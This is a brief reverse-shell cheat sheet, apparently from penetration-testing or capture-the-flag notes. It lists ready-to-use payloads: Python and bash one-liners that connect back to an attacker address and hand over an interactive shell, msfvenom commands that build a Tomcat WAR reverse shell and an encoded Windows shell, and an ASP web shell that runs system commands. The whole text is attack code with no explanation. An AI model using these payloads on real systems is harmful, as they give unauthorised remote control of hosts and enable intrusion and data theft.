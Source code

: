 # RevShells

## Python IPv6

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1000",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

## Tomcat WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 -f war -o pwned.war
```

## Bash

```
bash -c 'bash -i >& /dev/tcp/10.10.16.11/443 0>&1
```

## **ASP-WebShell**

```jsx
<%response.write CreateObject("WScript.Shell").Exec("ping 10.10.14.13").StdOut.Readall()%>
```

## MSFVenom - Windows Shell

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread
```